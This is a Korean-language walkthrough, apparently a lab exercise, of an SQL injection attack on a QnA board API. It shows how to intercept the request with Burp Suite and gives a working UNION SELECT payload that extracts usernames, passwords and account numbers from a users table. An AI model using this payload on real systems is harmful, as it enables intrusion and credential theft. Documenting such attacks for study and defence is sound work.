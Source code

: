 # SQLi 공격

## 1. SQLi 공격이란?

+ 사용자의 입력 값으로 웹 사이트 SQL 쿼리가 완성되는 약점을 이용하며, 입력 값을 변조하여 비정상적인 SQL 쿼리를 조합하거나 실행하는 공격이다. 
+ 해당 취약점이 존재하는 경우 비정상적인 SQL 쿼리로 DBMS 및 
데이터(Data)를 열람하거나 조작 가능하므로 사용자의 입력 값에 대한 필터링을 구현하여야 한다.


## 2. 공격 방법

Burp suite로 QnA 게시판(/api/qna/view) 요청을 가로챈다.

![버프로잡은화면](https://user-images.githubusercontent.com/115529661/200977942-95309400-1560-4f96-9c47-bdd4911a10d4.jpg)

요청 body의 enc_data를 복호화하면 qna_id가 전달되는 것 확인할 수 있다.

![qna_id확인](https://user-images.githubusercontent.com/115529661/200978257-ce5eb74c-c1a8-416d-aac0-81d12b22f093.jpg)

qna_id에 넣을 SQL 쿼리문이다.
```js
{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}
```
Injection할 쿼리문을 포함한 JSON을 암호화한다.
```js
encrypt('{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}');
```
![쿼리암호화](https://user-images.githubusercontent.com/115529661/200978302-b40fe385-5de5-4bf0-a091-79cb40fed626.png)

앞에서 암호화한 데이터를 요청에 넣어 보냈다.

![암호화한 데이터 송신](https://user-images.githubusercontent.com/115529661/200978464-1bf4a821-aa09-4e24-a3c5-5426fad26200.jpg)

응답값을 복호화해서 쿼리문 결과 확인할 수 있다.

![결과확인](https://user-images.githubusercontent.com/115529661/200978704-d8c4e842-44a3-4d0f-a559-07d533e9b402.jpg)

**암호화,복호화 확인 넣어야함


